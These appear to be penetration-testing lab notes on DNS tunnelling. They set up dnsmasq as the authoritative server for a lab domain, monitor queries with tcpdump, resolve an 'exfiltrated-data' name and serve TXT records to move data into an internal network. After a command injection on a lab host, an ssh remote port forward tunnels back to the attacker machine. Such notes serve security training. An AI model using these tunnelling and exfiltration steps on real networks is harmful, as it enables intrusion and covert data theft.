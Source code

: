 ```Shell
cat dnsmasq.conf
```
Output:
```
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```
This configuration ignores the `/etc/resolv.conf` and `/etc/hosts` files and only defines the auth-zone and auth-server variables. These tell Dnsmasq to act as the authoritative name server for the `feline.corp` zone
#### Starting Dnsmasq with the basic configuration
```Shell
sudo dnsmasq -C dnsmasq.conf -d
```
#### Do the command injection on CONFLUENCE01 and set up an SSH remote port forward to connect to PGDATABASE01
```Shell
ssh -N -R 127.0.0.1:2345:10.4.186.215:22 root@192.168.45.155
```
(On Confluence)

```Shell
ssh database_admin@127.0.0.1 -p 2345
```
(On Kali)
#### Starting Dnsmasq with the basic configuration
```Shell
sudo dnsmasq -C dnsmasq.conf -d
```
#### Start another shell on FELINEAUTHORITY and start tcpdump
```Shell
sudo tcpdump -i ens192 udp port 53
```
#### Checking the configured DNS server on PGDATABASE01
```Shell
resolvectl status
```
Note: It will not communicate directly w/ FELINEAUTHORITY---just MULTISERV03
#### Querying the DNS server directly
```Shell
nslookup exfiltrated-data.feline.corp 192.168.186.64.
```
#### Add the following line to dnsmasq
```
# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```
#### Run dnsmasq
```Shell
sudo dnsmasq -C dnsmasq_txt.conf -d
```
#### Query the server from PGDATABASE01
```Shell
nslookup -type=txt www.feline.corp
```
This is one way to get data into an internal network